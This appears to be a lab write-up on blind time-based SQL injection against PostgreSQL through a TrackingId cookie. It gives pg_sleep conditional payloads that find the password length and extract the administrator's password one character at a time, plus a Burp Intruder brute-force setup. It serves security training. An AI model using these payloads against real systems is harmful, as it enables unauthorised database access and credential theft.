




# Blind SQL injection with time delays and information retrieval

## Description

The lap vulnerable to time based sqli in a `TrackingId` cookie which is used in a query but it's result not reflect on the response or even raise error.

## Objectivie

Retrieve user's `administrator` password from table `users` that has columns
`username` and `password` and login with it.

## Steps

1. first i tried to find the type of database and it's again postgresql.
2. so know i need to to use these payload to retrieve the data
   `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
   so what will be the condition to use?
3. we need to get the password so the query will be `SELECT password from users where username='administrator'` and in order to complete my condition i will use `substring()` function.
4. but first we need to know the length of the password so i will use `length()` function.
5. so the first check will be
   `SELECT CASE WHEN ( username='administrator'AND (LENGTH(password)> N )) THEN pg_sleep(10) ELSE pg_sleep(0) END from users--`
6. then to retrieve password
   `SELECT CASE WHEN (username='administrator'AND substring(password,{index},1) ='C') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
7. we can use burp intruder as following
   1. first select the variable
      
   2. then we make out payload and using payload type `brute forcer` and Character set alphanumerics (in these case these is enough)
      
   3. start the attack then from columns add `Response revieved`
      
   4. observe that the valide chars more than 10000 ms => 10 s
      
8. we also can use a python script to automate it
   [Time Based SQLI python script](../files/Time-Based-sqli.py)
9. That's it login with the administration account and solve the lap.
